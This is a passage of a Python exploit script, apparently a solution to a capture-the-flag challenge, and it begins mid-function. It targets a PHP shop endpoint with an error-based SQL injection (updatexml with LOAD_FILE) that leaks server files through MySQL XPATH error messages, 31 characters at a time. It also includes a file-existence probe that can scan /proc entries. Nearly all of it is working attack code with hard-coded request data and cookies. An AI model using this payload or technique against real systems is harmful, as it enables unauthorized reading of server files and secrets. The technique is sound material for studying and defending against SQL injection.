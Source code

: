 ```python
    }

    errorMessage = b'mysql error: XPATH syntax error: \''
    response = requests.post(FULL_URI, data=data, cookies=cookie, stream=True)
    responseText = response.raw.read()

    if errorMessage not in responseText:
        print('[-] Exploit failed...')
        leakedContent = ''
        exit(0)

    soup = BeautifulSoup(responseText, 'html.parser')
    cleanResponseText = soup.text.strip()
    errorMessage = re.search(r'XPATH syntax error: \'\n(.+)\n?\'', cleanResponseText)
    if not errorMessage:
        leakedContent = ''
        return False

    leakedContent += errorMessage.group(1)
    return True

def checkFile(filename, position=1):
    filenameInHex = f'0x{filename.hex()}'
    sqlInjectionPayload = f'''1 and updatexml(null,concat(0x0a,(substring((select LOAD_FILE({filenameInHex})),{position},31))),null)-- -'''
    
    data = {
        'adds': sqlInjectionPayload,
        'f': 'shop',
        'act': 'buy',
        'temp_id': '0'
    }
    cookie = {
        'wog_cookie': '2',
        'wog_bbs_id': '1',
        'wog_cookie_debug': '22b53148583068af1f18ac2c126443f0'
    }

    errorMessage = b'mysql error: XPATH syntax error: \''
    response = requests.post(FULL_URI, data=data, cookies=cookie, stream=True)
    responseText = response.raw.read()

    print(f'[*] Trying file {filename.decode()}', end='\r')
    if errorMessage in responseText:
        print(f'\n[+] {filename.decode()} exist!')

if __name__ == '__main__':
    BASE_URI = 'http://chall-us.pwnable.hk:8765/'
    PHP_FILE = 'wog_act.php'
    FULL_URI = BASE_URI + PHP_FILE

    # for pid in range(1, 10000):
    #     filename = f'/proc/{pid}/cmdline'.encode()
    #     checkFile(filename)

    filename = b'<file_name_here>'
    for position in range(1, 100000, 31):
        isSuccess = exploit(filename, position)
        if isSuccess:
            print(leakedContent)
```
